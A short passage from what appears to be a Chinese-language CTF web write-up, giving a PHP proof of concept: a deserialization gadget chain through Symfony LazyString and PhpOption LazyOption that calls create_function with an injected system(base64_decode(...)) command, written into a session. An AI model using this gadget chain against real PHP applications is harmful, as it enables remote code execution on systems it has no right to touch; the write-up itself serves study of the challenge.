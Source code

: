 ![image-20211225204941972](2021-SCTF-Web-Writeup.assets/image-20211225204941972.png)

考虑到php7.4而且没回显而且写进session时候有些字符还会出问题，想到了`create_function`注入。

POC：

```php
<?php


namespace Symfony\Component\String{

    use PhpOption\LazyOption;

    class LazyString{
        public $value;
        public function __construct(){
            $a = new LazyOption();
            $this->value =[$a,'getIterator'];
        }
    }
}
namespace PhpOption{
    final class LazyOption{
        public $option = null;
        public $callback = 'create_function';
        public $arguments = ['',"}system(base64_decode('xxx'));//"];
    }
}
namespace {


    use Symfony\Component\String\LazyString;

    session_start();
    $_SESSION['feng'] = new LazyString();
}
```
